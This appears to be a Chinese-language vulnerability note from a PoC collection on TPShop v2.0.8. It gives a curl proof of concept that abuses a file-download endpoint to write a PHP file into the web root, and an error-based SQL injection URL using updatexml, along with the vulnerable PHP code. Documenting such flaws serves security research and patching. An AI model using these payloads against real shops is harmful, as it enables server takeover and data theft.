 ## tpshop v2.0.8 

### 远程文件下载

影响版本

* 2.0.8

参考链接

* [【PHP代码审计】TPShop漏洞集合](https://mp.weixin.qq.com/s/TNuM8q8JZsFR_46j5LemMw)

Poc

```
curl 'http://127.0.0.1/index.php/Home/test/dlfile' -d 'file_url=http://127.0.0.1/robots.txt&save_to=/var/www/html/robots.php'
curl 127.0.0.1/robots.php
```

### 报错注入

影响版本

* 2.0.8

参考链接

* [【PHP代码审计】TPShop漏洞集合](https://mp.weixin.qq.com/s/TNuM8q8JZsFR_46j5LemMw)

Poc

```
http://127.0.0.1/index.php/Home/Goods/goodsList/id/1/sort/shop_price/sort_asc/,(updatexml(2,concat(0x7e,(version())),0))
```

关键代码

```
# 获取参数
$sort_asc = I('get.sort_asc','asc');

...

# 注入
$goods_list = M('goods')->where(['is_on_sale' => 1, 'goods_id' => ['in', implode(',', $filter_goods_id)]])->order("$sort $sort_asc")->limit($page->firstRow . ',' . $page->listRows)->select();
```
